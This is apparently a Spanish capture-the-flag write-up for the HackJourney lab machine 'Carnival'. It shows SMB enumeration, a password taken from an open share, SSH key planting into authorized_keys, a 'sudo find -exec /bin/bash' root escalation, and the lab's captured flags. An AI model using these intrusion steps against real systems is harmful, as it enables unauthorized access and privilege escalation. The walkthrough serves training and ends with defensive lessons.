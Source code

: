 # Manual de Resolución - Máquina "Carnival"

---

**Este write-up forma parte del laboratorio de HackJourney. Para más información, visita [www.hackjourney.com](https://www.hackjourney.com)**

# 1. **Reconocimiento**

### 🔍 Escaneo de puertos:
```bash
sudo nmap 10.10.56.58 -n -Pn -sC -sV -sS --min-rate 5000 -oN scan1.txt
```

### 🌟 Resultados principales:
| Puerto | Servicio | Versión                       |
|:------:|:--------:|:-----------------------------:|
| 22/tcp | SSH      | OpenSSH 7.9p1 Debian 10         |
| 139/tcp | Samba   | Samba 3.X - 4.X (WORKGROUP)     |
| 445/tcp | Samba   | Samba 4.9.5-Debian              |

---

# 2. **Enumeración**

### 🔎 Enumeración de recursos SMB:
```bash
smbclient -L \\10.10.56.58\\ -N
```

👌 Shares encontrados:
- `private`
- `pedro`
- `IPC$` (por defecto)

### 📂 Acceso a share `private`:
```bash
smbclient \\\\10.10.56.58\\private -N
```

Archivo encontrado:
- `creds.bak`

Descargado con:
```bash
get creds.bak
```

Contenido:
```
n0m30olv1d0123!
```

---

# 3. **Explotación inicial**

### 🚪 Acceso al share `pedro`:
```bash
smbclient \\\\10.10.56.58\\pedro -U pedro
```

Archivos encontrados:
- `.bash_logout`
- `.bashrc`
- `.profile`
- `user.txt` (**primer flag**)

Descarga masiva:
```bash
prompt OFF
mget *
```

Flag `user.txt`:
```
ab740cf8182f14d13f608e372a697bb1
```

---

# 4. **Movimiento lateral**

### 🔒 Intento de acceso SSH:
```bash
ssh pedro@10.10.56.58
```

Resultado: ❌ `Permission denied (publickey)`

---

# 5. **Estrategia alternativa (Key Injection)**

### 🔑 Creación de par de claves SSH:
```bash
ssh-keygen -t rsa -b 4096 -f carnival_pedro_key
```

## 🔐 ¿Por qué renombrar la clave pública a `authorized_keys`?

Cuando generas un par de claves SSH con `ssh-keygen`, obtienes dos archivos:

- `carnival_pedro_key` → clave **privada**
- `carnival_pedro_key.pub` → clave **pública**

Para que el servidor (en este caso la máquina víctima) reconozca al cliente (tú) como autorizado a acceder, **la clave pública debe colocarse en el archivo `authorized_keys` dentro del directorio `.ssh` del usuario objetivo**.  
Este archivo puede contener **una o varias claves públicas**, y es donde `sshd` (el servidor SSH) consulta para verificar si la conexión debe permitirse con base en la clave que presenta el cliente.

Por eso, se realiza el siguiente comando:
```bash
cp carnival_pedro_key.pub authorized_keys
```

## 📂 ¿Dónde debe ir `authorized_keys`?

En la máquina víctima, debe existir la siguiente estructura de archivos en el **home del usuario** objetivo
`/home/pedro/.ssh/authorized_keys`


Subida mediante `smbclient`:
```bash
smbclient \\\\10.10.56.58\\pedro -U pedro
mkdir ./.ssh
cd ./.ssh
put authorized_keys
```


---

# 6. **Acceso SSH exitoso**
Una vez que la clave pública esté correctamente en `/home/pedro/.ssh/authorized_keys`, y se hayan configurado bien los permisos, puedes intentar el acceso SSH:
```bash
ssh -i carnival_pedro_key pedro@10.10.56.58
```
Resultado: ✅ Shell como `pedro`.

---

# 7. **Escalada de privilegios**

### 🔍 Enumeración de permisos sudo:
```bash
sudo -l
```

Resultado:
```
(ALL) NOPASSWD: /usr/bin/find
```

### 🚀 Escalada utilizando `find`:
```bash
sudo /usr/bin/find . -exec /bin/bash \;
```

Verificación:
```bash
whoami
# Resultado: root
```

---

# 8. **Captura de bandera de root**

### 📂 Navegación hacia `/root/`:
```bash
cd /root
ls
cat root.txt
```

Flag `root.txt`:
```
25b5d447d35f3323f711a741cc80c2e2
```

---

# 🌿 Resumen general

| Fase                         | Resultado alcanzado             |
|:-----------------------------:|:-------------------------------:|
| **Reconocimiento**            | Descubrimiento de servicios.    |
| **Enumeración**               | Acceso anónimo en SMB.           |
| **Explotación inicial**       | Credenciales extraídas.          |
| **Movimiento lateral**        | Inyección de clave SSH.          |
| **Acceso usuario**            | Shell como `pedro`.              |
| **Escalada de privilegios**   | Root mediante abuso de `find`.   |
| **Captura de flags**          | `user.txt` y `root.txt` capturadas. |

---

# 🔢 Conclusión

Esta máquina demostró la importancia de:
- Configuración segura de shares de Samba.
- Protección de credenciales sensibles.
- Restricción adecuada de comandos `sudo`.
- Correcta gestión de llaves SSH.


